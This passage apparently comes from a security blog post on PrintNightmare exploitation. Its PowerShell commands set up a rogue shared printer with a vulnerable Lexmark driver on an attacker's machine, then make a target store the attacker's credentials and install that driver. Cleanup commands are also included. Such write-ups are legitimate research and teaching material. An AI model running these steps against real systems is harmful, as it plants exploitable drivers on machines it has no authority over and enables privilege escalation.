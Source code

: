 ```powershell
Add-Printer -Name "ACIDDAMAGE" -DriverName "Lexmark Universal v2" -PortName "LPT1:" -PrintProcessor "WinPrint" -Datatype "RAW" -Shared
# Enable File and Printer Sharing firewall rules (optional if your firewall is
# disabled).
# https://learn.microsoft.com/en-us/powershell/module/netsecurity/enable-netfirewallrule#example-1
Enable-NetFirewallRule -Group "@FirewallAPI.dll,-28502"
```

Here is a short video showing all the set-up.

{% include embed/video.html src='/assets/posts/2024-01-28-printnightmare-exploitation/15_fake-shared-printer-creation.webm' title='Creation of a print server and a shared printer with a vulnerable driver' muted=true %}

The code snippet below shows all the commands necessary to restore your machine to its original state, once you no longer need the shared printer. They should be self-explanatory.

```powershell
Disable-NetFirewallRule -Group "@FirewallAPI.dll,-28502"
Remove-Printer -Name "ACIDDAMAGE" -Verbose
Restart-Service -Name "Spooler" -Force
Remove-PrinterDriver -Name "Lexmark Universal v2" -Verbose
(pnputil.exe /enum-drivers | Select-String "lmud1o40.inf" -Context 1,0) -Match "(oem.+\.inf)"
$DriverName = $Matches[0]
pnputil.exe /delete-driver $DriverName /uninstall
Remove-Item -Path ".\ACIDDAMAGE\" -Recurse -Force
Remove-Item -Path ".\LMUD1o40.cab" -Force
Remove-LocalUser -Name $Username
```

### 2. Installing the vulnerable printer driver (Target)

On the client side (_i.e._ the target), we should now be able to execute the following commands to connect to the shared printer and coerce the Print Spooler service to download and install the vulnerable printer driver locally.

```powershell
$Server = "192.168.200.226" # IP or hostname of the attacker's machine
$Username = "user"
$Password = "P@ssw0rd"
$PrinterName = "\\$($Server)\ACIDDAMAGE"

# Store remote user credentials in the credential manager
cmdkey.exe /add:$Server /user:$Username /pass:$Password
# Add the shared printer
Add-Printer -ConnectionName $PrinterName

# Cleanup
Remove-Printer -Name $PrinterName
cmdkey.exe /delete:$Server
```

> The built-in tool `cmdkey.exe` stores the credentials in the Credential Vault, so that Windows can authenticate against the attacker's server transparently. I tried several other solutions, but this option seemed the simplest and the most reliable.
{: .prompt-info}
